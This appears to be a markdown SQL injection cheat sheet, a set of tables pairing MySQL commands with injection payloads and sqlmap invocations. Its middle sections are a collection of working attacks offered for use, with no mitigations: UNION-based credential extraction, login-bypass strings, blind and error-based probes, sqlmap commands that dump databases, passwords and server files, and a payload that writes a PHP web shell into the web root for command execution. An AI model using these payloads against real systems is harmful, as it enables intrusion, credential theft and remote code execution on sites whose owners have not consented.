

### **INTRODUCTION**

SQL injection is a vulnerability that occurs when an attacker inserts or "injects" malicious SQL code into a database query. This is typically done through user input areas like forms or URLs that are not properly secured. By manipulating the SQL statements, the attacker can gain unauthorized access to the database, allowing them to view, modify, or delete data. This type of attack exploits inadequate input validation and can lead to significant data breaches.

### **GENERAL MYSQL COMMANDS**

These commands enable interactions with a MySQL database, including connection setup, navigation, and basic data operations.

| COMMAND | DESCRIPTION |
| --- | --- |
| `mysql -u root -h [TARGET_IP_ADDRESS] -P 3306 -p` | Connects to a MySQL database as the `root` user at a specified host and port. |
| `SHOW DATABASES;` | Lists all databases on the MySQL server for database selection. |
| `USE users;` | Selects the 'users' database for current operations. |
| `SHOW TABLES;` | Displays tables in the active database to outline the data structure. |
| `DESCRIBE logins;` | Shows structure and properties of the 'logins' table, including column data types. |

### **TABLE AND DATA MANIPULATION COMMANDS**

This section focuses on the creation, modification, and population of database tables.

| COMMAND | DESCRIPTION |
| --- | --- |
| `CREATE TABLE logins (id INT, ...);` | Creates a 'logins' table with defined columns and data types. |
| `INSERT INTO table_name VALUES (value_1, ...);` | Adds a new row with values in the defined order to a table. |
| `INSERT INTO table_name (column2, ...) VALUES (column2_value, ...);` | Inserts data into specific columns of a table. |
| `UPDATE table_name SET column1=newvalue1, ... WHERE condition;` | Updates records in a table based on a given condition. |

### **SQL INJECTION TECHNIQUES AND PAYLOADS**

A clear and concise overview of SQL injection methods from simple attacks to complex exploitations using tools like sqlmap.

| TECHNIQUE CATEGORY | COMMAND / PAYLOAD | DESCRIPTION |
| --- | --- | --- |
| Basic Union Attack | `' UNION SELECT 1,2,3,4 -- -` | Demonstrates a simple SQL injection with a UNION SELECT. |
| Write File | `cn' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/proof.txt'-- -` | Writes data to a file on the server, showing file system access. |
| PHP Web Shell | `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -` | Creates a web shell for command execution via PHP code. |
| sqlmap Data Dump | `sqlmap -r request.txt --batch --dump` | Automates SQL injection to dump database contents with sqlmap. |
| Targeted sqlmap Scan | `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"` | Targets specific details with sqlmap for sensitive data retrieval. |
| Form Injection Test | `sqlmap -o -u "http://[DOMAIN-NAME]/form/" –forms` | Tests form parameters for SQL injection vulnerabilities using sqlmap. |
| Database & Table Data Dump | `sqlmap -o -u "http://[DOMAIN-NAME]/vuln-form" --forms -D database-name -T users –dump` | Extracts and cracks hashes from specified database tables. |
| Session Flush | `sqlmap --flush session` | Resets sqlmap's session data to clear the testing environment. |
| Boolean Exploitation | `sqlmap -p user --technique=B` | Uses boolean techniques for SQL injection exploitation. |
| Crawl and Scan | `sqlmap -u http://[DOMAIN-NAME] --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3` | Performs a comprehensive crawl and test for SQL injection on a website. |

### **SQL INJECTION FOR BYPASSING LOGIN FORMS**

Different SQL injection payloads designed to manipulate or bypass login page.

| Technique | Example Payload | DESCRIPTION |
| --- | --- | --- |
| Basic Authentication Bypass | `' OR '1'='1` | Bypasses authentication by always returning true. |
| Extended Rights | `' OR '1'='1'--` | Ends the query prematurely to succeed the authentication check. |
| Admin Access | `' OR '1'='1' AND userType='admin` | Attempts to escalate privileges by setting userType to 'admin'. |
| Time-Based Blind SQLi | `admin' AND (SELECT * FROM Users WHERE username='admin' AND SLEEP(10))--` | Infers valid usernames by delaying the response when true. |
| Union-Based Credential Extraction | `' UNION SELECT username, password FROM users--` | Extracts user credentials directly from the database. |
| Error-Based SQLi | `' OR 1=1; RAISERROR ('Login Error', 10, 1);--` | Disrupts normal error handling to disclose information. |
| Commenting Out Remaining SQL | `' OR '1'='1' /*` | Neutralizes the rest of the SQL command for effective manipulation. |
| Complex Payload with Encoding | `' OR ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116 --` | Derives schema details through boolean responses or error messages. |

### **DATA RETRIEVAL AND OUTPUT FORMATTING**

Methods for optimizing data retrieval and presentation for clearer analysis and reporting.

| COMMAND | DESCRIPTION |
| --- | --- |
| `SELECT * FROM table_name WHERE condition;` | Displays rows matching a specific condition, showing all columns. |
| `SELECT column1, column2 FROM table_name;` | Displays only selected columns, streamlining the output. |
| `SELECT * FROM logins ORDER BY column_1 DESC;` | Orders 'logins' table data by 'column_1' in descending order. |
| `SELECT * FROM logins LIMIT 2 OFFSET 1;` | Shows a subset of records, skipping the first and displaying the next two. |